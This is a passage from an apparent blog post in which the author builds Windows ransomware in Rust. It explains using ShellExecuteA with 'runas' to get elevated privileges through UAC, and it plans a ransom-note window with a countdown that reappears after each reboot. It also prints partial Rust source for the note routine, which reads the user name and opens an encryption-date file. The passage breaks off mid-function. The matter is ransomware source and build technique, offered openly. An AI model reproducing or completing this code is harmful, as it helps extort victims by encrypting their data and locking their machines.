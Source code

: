 
The main trick here lies in [ShellExecuteA](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea). If we specify the field *lpOperation* as **"runas**, it will *"launches the application as Administrator. User Account Control (UAC) will prompt the user for consent to run the application elevated or enter the credentials of an administrator account used to run the application"* according to MSDN. Therefore, we can pass our executable file path into this function and have UAC prompt for priviledge for us.


## 4. Ransomnote


I got really lazy when I got to dispoint to write a fully functioning ransomnote, so I asked my friend Thu from UCI to write a simple Python tkinter GUI for me!


Here is what it looks like.
    ![alt text](/uploads/malware.JPG)


Basically, the goal is to show this with a countdown from the time written in **encrypt_date.txt** after the encryption and have it ran every time the machine reboots. We can simply just create a process for this with [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa).


``` rust
   fn display_ransom_note() -> bool {
       let mut size: u32 = 0;
       let mut buffer: Vec<i8> = Vec::new();
       let mut _user_name: Vec<u8> = Vec::new();
       unsafe {
           GetUserNameA(null_mut(), &mut size);
           buffer.resize(size as usize, 0i8);

           GetUserNameA(buffer.as_mut_ptr(), &mut size);
           _user_name = std::mem::transmute(buffer);
           _user_name.resize((size - 1) as usize, 0u8);

           let mut full_path = String::from("C:\\Users\\");
           full_path.push_str(str::from_utf8(&_user_name[..]).unwrap());
           full_path.push_str("\\encrypt_date.txt");

           let date_file: HANDLE = CreateFileA(
               CString::new(full_path.clone()).unwrap().as_ptr(),
               FILE_READ_DATA,
```
